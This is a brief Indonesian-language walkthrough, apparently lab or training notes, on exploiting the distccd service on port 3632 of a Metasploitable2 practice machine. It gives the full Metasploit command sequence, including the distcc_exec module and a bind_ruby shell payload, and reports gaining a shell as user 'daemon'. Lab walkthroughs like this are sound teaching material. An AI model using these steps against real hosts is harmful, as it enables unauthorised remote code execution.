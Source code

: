 # Exploit Port 3632 (distccd)
- Buka msfconsole di terminal
```sh
msfconsole
```

- Gunakan modul `exploit/unix/misc/distcc_exec` untuk melakukan exploit pada distccd
```sh
use exploit/unix/misc/distcc_exec
```

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```

- Tampilkan daftar payload yang bisa dijalankan dimodul tersebut
```sh
show payloads
```

- Isi parameter yang dibutuhkan di modul tersebut dan payload yang digunakan
```sh
set payload cmd/unix/bind_ruby
set rhosts <IP_metasploitable2>
```

- Setelah pengisian parameter selesai jalankan modul tersebut. Disini exploit berhasil masuk ke dalam server. Jika diketik perintah whoami maka exploit masuk sebagai user `daemon`
```sh
exploit
```